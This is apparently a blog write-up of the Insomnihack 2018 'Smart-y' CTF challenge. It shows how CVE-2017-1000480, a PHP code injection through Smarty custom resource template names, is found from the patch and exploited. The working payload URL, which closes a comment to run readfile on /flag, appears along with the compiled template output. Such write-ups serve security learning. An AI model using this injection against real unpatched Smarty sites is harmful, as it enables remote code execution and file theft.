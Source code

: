```yaml
---
layout: post
title: Smart-y writeup, Insomnihack 2018 teaser
---
```


This challenge is the kind I really like - a little #0day crafting involved. The following is an exploit for CVE-2017-1000480 by virtue of this CTF. The chal was found at [http://smart-y.teaser.insomnihack.ch/](http://smart-y.teaser.insomnihack.ch/). After a couple of UI interactions we end up at `http://smart-y.teaser.insomnihack.ch/console.php` showing the following content:

```
The news system is in maintenance. Please wait a year. <<<DEBUG>>>
```

`<<<DEBUG>>>` is a link that redirects to `http://smart-y.teaser.insomnihack.ch/console.php?hl` which displays its source code:

```php

<?php 

if(isset($_GET['hl'])){ highlight_file(__FILE__); exit; } 
include_once('./smarty/libs/Smarty.class.php'); 
define('SMARTY_COMPILE_DIR','/tmp/templates_c'); 
define('SMARTY_CACHE_DIR','/tmp/cache'); 
  
  
class news extends Smarty_Resource_Custom 
{ 
    protected function fetch($name,&$source,&$mtime) 
    { 
        $template = "The news system is in maintenance. Please wait a year. <a href='/console.php?hl'>".htmlspecialchars("<<<DEBUG>>>")."</a>"; 
        $source = $template; 
        $mtime = time(); 
    } 
} 
  
// Smarty configuration 
$smarty = new Smarty(); 
$my_security_policy = new Smarty_Security($smarty); 
$my_security_policy->php_functions = null; 
$my_security_policy->php_handling = Smarty::PHP_REMOVE; 
$my_security_policy->modifiers = array(); 
$smarty->enableSecurity($my_security_policy); 
$smarty->setCacheDir(SMARTY_CACHE_DIR); 
$smarty->setCompileDir(SMARTY_COMPILE_DIR); 


$smarty->registerResource('news',new news); 
$smarty->display('news:'.(isset($_GET['id']) ? $_GET['id'] : ''));  

```

By gazing at this we note the following:

- the code uses the Smarty template library
- the code does not use a template file but rather ...
- it registers a custom resource which works as a dynamic template
- we completely control `$_GET['id']` which is being passed into the `display()` method
- `./smarty/libs/Smarty.class.php` include path is actually browsable (directory listing)

Beyond that the challenge description suggests that the flag is in `/flag`. From the last point we learn about the version of the template engine which is ... `===== 3.1.31 ===== (14.12.2016)` as per the [change_log.txt](http://smart-y.teaser.insomnihack.ch/smarty/change_log.txt) file discovered. In order to see how outdated this is we take to the [Smarty project](https://github.com/smarty-php/smarty/) over at GH. There's quite a few thousand commits after the date.

Quick parsing of issues and commits does not reveal anything interesting so we conduct a quick CVE search to see if there are known vulnerabilities. Curiously, we do find one: [CVE-2017-1000480](https://www.cvedetails.com/cve/CVE-2017-1000480/) which happens to be the latest one reported on 2018-01-03. The description is extremely interesting:

```

Smarty 3 before 3.1.32 is vulnerable to a PHP code injection when calling fetch() or display() functions on custom resources that does not sanitize template name.

```

Welp...  we have just that. The CVE details point only to the latest [changelog](https://github.com/smarty-php/smarty/blob/master/change_log.txt) where we [find our bug-o](https://github.com/smarty-php/smarty/blob/master/change_log.txt#L70):

```

21.7.2017
  - security possible PHP code injection on custom resources at display() or fetch()
    calls if the resource does not sanitize the template name

```

which, after parsing the commit history, leads us to [this commit](https://github.com/smarty-php/smarty/commit/614ad1f8b9b00086efc123e49b7bb8efbfa81b61). Looks like it's what we're after. The commit is tiny (typical to terrbile vuln bugfixes) but contains key pointers that help us craft a sploit. `$source->name` is apparently a thing that's causing troubles when using a custom resource via `$smarty->registerResource('news',new news);`.

So basically the `$_GET['id']` param is `$source->name` which we fully control. After *vardumping* a bit around the patched functions in the Smarty library we see that we can contaminate the file path that's being generated [here](https://github.com/smarty-php/smarty/commit/614ad1f8b9b00086efc123e49b7bb8efbfa81b61#diff-c18c361cf06b21f46e6d5ae3d3330a2fR50), which in turn, ends up [here](https://github.com/smarty-php/smarty/commit/614ad1f8b9b00086efc123e49b7bb8efbfa81b61#diff-9d91242f09631bf41fcbb63ad9c00fa3R45). So what's happening at a higher level is that Smarty would compile the template and cache it under `/tmp/templates_c` (referring to `define('SMARTY_COMPILE_DIR','/tmp/templates_c');` of the challenge code) bearing the path name that we were able to taint.

If you carefully take a look at the patch again you'd see that something weird [here](https://github.com/smarty-php/smarty/commit/614ad1f8b9b00086efc123e49b7bb8efbfa81b61#diff-9d91242f09631bf41fcbb63ad9c00fa3R4) as if it prevents a PHP comment from being parsed as such. If so then it's code exec indeed. The sploit is trivial and looks like this:

```

http://smart-y.teaser.insomnihack.ch/console.php?id=*/readfile(%22/flag%22);//

```

Our payload is being parsed as `news:*/readfile(%22/flag%22);//` which creates a file `/tmp/templates_c/<hash of the file>_<some digits>_<our tainted name>.php` which contains the following (can be fetched from `http://smart-y.teaser.insomnihack.ch/console.php?id=*/readfile(__FILE__);//`):

```


<?php
/* Smarty version 3.1.31, created on 2018-01-22 09:51:34
  from "news:*/readfile(__FILE__);//" */

/* @var Smarty_Internal_Template $_smarty_tpl */
if ($_smarty_tpl->_decodeProperties($_smarty_tpl, array (
  'version' => '3.1.31',
  'unifunc' => 'content_5a65b426cbc824_91081900',
  'has_nocache_code' => false,
  'file_dependency' => 
  array (
    '982ed2594de5de4cbe51900d54016762d8808622' => 
    array (
      0 => 'news:*/readfile(__FILE__);//',
      1 => 1516614694,
      2 => 'news',
    ),
  ),
  'includes' => 
  array (
  ),
),false)) {
function content_5a65b426cbc824_91081900 (Smarty_Internal_Template $_smarty_tpl) {
?>
The news system is in maintenance. Please wait a year. <a href='/console.php?hl'>&lt;&lt;&lt;DEBUG&gt;&gt;&gt;</a><?php }
}
The news system is in maintenance. Please wait a year. <a href='/console.php?hl'>&lt;&lt;&lt;DEBUG&gt;&gt;&gt;</a>

```

As you can see our `$_GET['id']` ends up in the template source where we simply close the comment line and append our code. Flag:

`INS{why_being_so_smart-y} The news system is in maintenance. Please wait a year. <<<DEBUG>>>`

> Read the manual if unsure, post comment(s) if unclear.
